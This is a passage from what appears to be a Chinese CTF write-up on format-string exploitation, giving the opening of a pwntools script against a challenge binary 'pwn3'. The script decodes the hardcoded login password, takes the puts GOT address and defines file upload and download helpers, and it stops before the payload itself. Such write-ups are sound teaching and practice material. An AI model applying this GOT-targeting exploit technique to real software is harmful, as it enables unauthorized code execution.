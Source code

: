 ![](/Fmtstr.assets/pwn3_2.png)

最终利用代码如下
```python
#!coding:utf-8

from pwn import *
#context.log_level='debug'

r=process("./pwn3")
elf=ELF("./pwn3")
libc=ELF("./libc.so")

puts_got=elf.got['puts']

def passwd():
	password=''
	for i in 'sysbdmin':
		password+=chr(ord(i)-1)

	return password

def name():
	r.recvuntil("Name (ftp.hacker.server:Rainism):")
	r.sendline(passwd())

def put(name,content):
	r.sendline('put')
	r.recvuntil("please enter the name of the file you want to upload:")
	r.sendline(name)
	r.recvuntil('then, enter the content:')
	r.sendline(content)

def dir():
	r.sendline("dir")

def get(name):
	r.sendline("get")
	r.recvuntil("enter the file name you want to get:")
	r.sendline(name)
	data=r.recv()

	return data

# 输入rxraclhm
```